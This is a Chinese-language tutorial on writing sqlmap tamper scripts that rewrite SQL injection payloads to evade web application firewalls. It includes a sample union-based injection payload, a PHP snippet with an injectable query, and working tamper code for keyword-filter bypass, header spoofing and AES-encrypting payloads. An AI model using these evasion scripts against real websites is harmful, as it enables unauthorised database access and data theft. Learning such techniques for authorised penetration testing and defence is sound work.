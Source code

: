 ## 0x00 sqlmap tamper简介

sqlmap是一个自动化的SQL注入工具，而tamper则是对其进行扩展的一系列脚本，主要功能是对本来的payload进行特定的更改以绕过waf。

## 0x01 一个最小的例子

为了说明tamper的结构，让我们从一个最简单的例子开始

```py
# sqlmap/tamper/escapequotes.py

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload.replace("'", "\\'").replace('"', '\\"')
```

不难看出，一个最小的tamper脚本结构为priority变量定义和dependencies、tamper函数定义。

priority定义脚本的优先级，用于有多个tamper脚本的情况。

dependencies函数声明该脚本适用/不适用的范围，可以为空。

tamper是主要的函数，接受的参数为payload和\*\*kwargs  
 返回值为替换后的payload。比如这个例子中就把引号替换为了\'。

## 0x02 详细介绍

第一部分完成了一个最简单的tamper架构，下面我们进行更详细的介绍

#### tamper函数

tamper是整个脚本的主体。主要用于修改原本的payload。举例来说，如果服务器上有这么几行代码

```php
$id = trim($POST($id),'union');
$sql="SELECT * FROM users WHERE id='$id'";
```

而我们的payload为

```
-8363'  union select null -- -
```

这里因为union被过滤掉了，将导致payload不能正常执行，那么就可以编写这样的tamper

```py
def tamper(payload, **kwargs):
    return payload.replace('union','uniounionn')
```

**保存为replaceunion.py，存到sqlmap/tamper/下，执行的时候带上--tamper=replaceunion的参数，就可以绕过该过滤规则**

#### dependencies函数

dependencies函数，就tamper脚本支持/不支持使用的环境进行声明，一个简单的例子如下：

```py
# sqlmap/tamper/echarunicodeencode.py

from lib.core.common import singleTimeWarnMessage

def dependencies():
    singleTimeWarnMessage("tamper script '%s' is only meant to be run against ASP or ASP.NET web applications" % os.path.basename(__file__).split(".")[0])

# singleTimeWarnMessage() 用于在控制台中打印出警告信息
```

#### kwargs

在官方提供的47个tamper脚本中，kwargs参数只被使用了两次，两次都只是更改了http-header，这里以其中一个为例进行简单说明

```py
# sqlmap/tamper/vanrish.py

def tamper(payload, **kwargs):
    headers = kwargs.get("headers", {})
    headers["X-originating-IP"] = "127.0.0.1"
    return payload
```

这个脚本是为了更改X-originating-IP，以绕过WAF，另一个kwargs的使用出现于xforwardedfor.py，也是为了改header以绕过waf

## 0x3 结语

tamper的编写远不止这些，本文只就其最基本的结构进行探讨。作为sqlmap的扩展，在编写tamper时几乎所有的sqlmap内置的函数、变量都可以使用，本文不一一列出。

## 0x04 附录：部分常数值

```py
# sqlmap/lib/enums.py

class PRIORITY:
    LOWEST = -100
    LOWER = -50
    LOW = -10
    NORMAL = 0
    HIGH = 10
    HIGHER = 50
    HIGHEST = 100


class DBMS:
    ACCESS = "Microsoft Access"
    DB2 = "IBM DB2"
    FIREBIRD = "Firebird"
    MAXDB = "SAP MaxDB"
    MSSQL = "Microsoft SQL Server"
    MYSQL = "MySQL"
    ORACLE = "Oracle"
    PGSQL = "PostgreSQL"
    SQLITE = "SQLite"
    SYBASE = "Sybase"
    HSQLDB = "HSQLDB"
```

示例：aes加密

```py
from Crypto.Cipher import AES
from base64 import b64encode
from lib.core.data import kb
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL
def dependencies():
    pass
def tamper(payload,**kwargs):
    return encrypt(payload)
def encrypt(text):
    text = text+'hxb2018'
    key = 'ydhaqPQnexoaDuW3'
    iv = '2018201920202021'
    cryptor = AES.new(key,AES.MODE_CBC,iv)
    padding = lambda x: x + (16-(len(x)%16 or 16))*'\0'
    plain = padding(text)
    cipher = cryptor.encrypt(plain)
    result = b64encode(b64encode(cipher))
    return result
```



